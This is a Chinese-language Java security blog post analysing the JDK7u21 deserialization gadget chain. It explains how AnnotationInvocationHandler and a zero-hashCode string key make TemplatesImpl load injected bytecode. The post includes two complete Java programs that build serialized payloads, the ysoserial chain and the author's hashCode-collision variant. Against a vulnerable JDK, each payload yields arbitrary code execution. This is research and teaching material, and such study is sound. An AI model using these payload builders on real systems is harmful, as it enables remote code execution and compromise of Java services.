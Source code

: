```yaml
---
title: "JDK7u21 反序列化分析"
date: 2022-12-17T21:21:44+08:00
lastmod: 2022-12-17T21:21:44+08:00
draft: false
author: "X1r0z"

tags: ['jdk']
categories: ['Java安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


以及一种可能是新的构造方式?

<!--more-->

## JDK7u21 分析

先贴一遍 ysoserial 的 gadget chain

```
LinkedHashSet.readObject()
  LinkedHashSet.add()
    ...
      TemplatesImpl.hashCode() (X)
  LinkedHashSet.add()
    ...
      Proxy(Templates).hashCode() (X)
        AnnotationInvocationHandler.invoke() (X)
          AnnotationInvocationHandler.hashCodeImpl() (X)
            String.hashCode() (0)
            AnnotationInvocationHandler.memberValueHashCode() (X)
              TemplatesImpl.hashCode() (X)
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
                  TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                      TemplatesImpl.defineTransletClasses()
                        ClassLoader.defineClass()
                        Class.newInstance()
                          ...
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```

这条链的核心是 AnnotationInvocationHandler, 它的 equalsImpl 方法能够遍历并执行某个类的所有 (无参) 方法 (有参则会抛出异常)

![image-20221217214313080](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212172143223.png)

`this.type` 和 `this.memberValues` 通过构造方法来确定

然后上面遍历得到的所有 Method 都来自 `this.type` 这个 Class 对象, 后面写 payload 的时候需要注意一下

而 AnnotationInvocationHandler 本身也是个代理类, 其 invoke 方法如下

![image-20221217214404216](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212172144276.png)

那么只要能调用到被代理对象的 equals 方法, 就能够触发 equalsImpl 调用无参方法

这个调用 "无参方法" 的操作很容易就可以想到去找 TemplatesImpl 类的 newTransformer() 或 getOutputProperties()

而至于如何调用 equals, ysoserial 给出的思路是利用 HashSet 这种数据结构的唯一性

因为 HashSet 必须要保证 key 唯一, 那么势必会涉及到两个 key 的比较, 有比较就会存在 equals

来看 HashSet 的 readObject 方法

![image-20221217215520230](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212172155276.png)

其内部维护了一个 HashMap, 它的 put 方法如下

![image-20221217215608522](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212172156566.png)

这里需要使两个 key 的 hash 相等, 才能够进入到 `key.equals(k)` 这一步

作者的思路是利用 AnnotationInvocationHandler 计算 hashCode 的缺陷来构造一个和 TemplatesImpl 一样的 hash

```java
private int hashCodeImpl() {
    int var1 = 0;

    Map.Entry var3;
    for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
        var3 = (Map.Entry)var2.next();
    }

    return var1;
}
```

代码风格看着有点抽象...

核心思路很简单: 让 memberValues 简化成只有一个键值对的形式, 令 key 的 HashCode 为 0, 这样计算出来的 HashCode 就和 value 的一模一样了

然这时后我们把 TemplatesImpl 赋给 value, 最终就会产生 AnnotationInvocationHandler 和 TemplatesImpl 两者 hash 一致的效果

那么只需要找出一个 HashCode 为 0 的字符串即可, 我用的是 `f5a5a608` (其实是自己懒得跑了, 网上也没找到其它的...)

最终 payload 如下

```java
package com.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class JDK7u21Test1 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(Evil.class.getName());
        byte[] code = ctClass.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});

        Map innerMap = new HashMap();
        innerMap.put("f5a5a608", 123); // value 先随便设置一个值, 防止在 put 的时候触发 payload

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Templates.class, innerMap); // 传入 Templates.class, 因为这个接口就只有两个方法, 而且这两个方法都能够触发 payload, 更容易操作
        Templates proxy = (Templates) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Templates.class}, handler);

        HashSet set = new HashSet();
        set.add(templatesImpl);
        set.add(proxy);

        innerMap.put("f5a5a608", templatesImpl); // 放入最终的 TemplatesImpl 对象, 这里 put 会覆盖掉原来的 value

        Serialization.test(set);
    }
}
```

![image-20221217221854260](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212172218430.png)

## 新的构造方式

自己搞出来的一种新的构造方式 (?)

其实原理差不多, 都是利用 AnnotationInvocationHandler 来触发 TemplatesImpl, 不过这里的入口点换成了 HashCode 碰撞的形式, 类似于 cc7

调试流程我就不写了

```java
package com.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class JDK7u21Test2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(Evil.class.getName());
        byte[] code = ctClass.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Templates.class, new HashMap());
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);

        Map map1 = new HashMap();
        Map map2 = new HashMap();
        map1.put("yy",proxyMap);
        map1.put("zZ",templatesImpl);
        map2.put("yy",templatesImpl);
        map2.put("zZ",proxyMap);

        Map map = new HashMap();
        map.put(map1, 1);
        map.put(map2, 2);

        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});

        Serialization.test(map);

    }
}
```

![image-20221217222228152](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212172222259.png)